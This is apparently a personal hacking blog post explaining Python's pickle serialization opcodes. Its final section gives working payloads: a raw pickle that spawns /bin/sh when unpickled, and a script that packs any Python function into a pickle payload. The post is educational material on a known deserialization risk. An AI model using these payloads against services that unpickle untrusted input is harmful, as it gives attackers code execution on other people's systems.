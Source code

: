 ```yaml
---
layout: post
title:  "Pickle"
category: Hacking
---
```


Python includes a serialization library called `pickle` to write /
read Python objects. It uses a stack based language for the interpreter.

| Instruction | Description |
| ----------- | ----------- |
| `c` | Read to the newline as the module name; read the next line as the module object; push `module.object` onto the stack |
| `(` | Push a MARK object onto the stack |
| `S` | Push trailing string in quotes onto the stack |
| `V` | Push trailing unicode string in quotes onto the stack |
| `l` | Pop everything off the stack until MARK into a list; push the list back onto the stack |
| `t` | Pop everything off the stack until MARK into a tuple; push the tuple back onto the stack |
| `R` | Pop two objects off the stack (argument and callable); apply the function to the arguments; push the result back onto the stack |
| `p` | Read to the newline as the `index`; peek at the top stack object and store it in memo `index` |
| `g` | Read to the newline as the `index`; grab an object from memo `index` and push onto the stack |
| `0` | Pop and discard the topmost stack item |
| `.` | End of the pickle |

## Arbitrary Code Execution
The following will spawn `/bin/sh` when unpickled and is equivalent to:

```python
import os
os.system('/bin/sh')
```

```
cos
system
(S'/bin/sh'
tR.
```

Below is a Python program that allows you to write a payload in Python
that will get executed when unpickled. [Source](https://checkoway.net/musings/pickle/)

```python
import marshal
import base64

# payload() will be executed when unpickled
def payload():
    pass

print("""ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(payload.__code__)).decode())
```
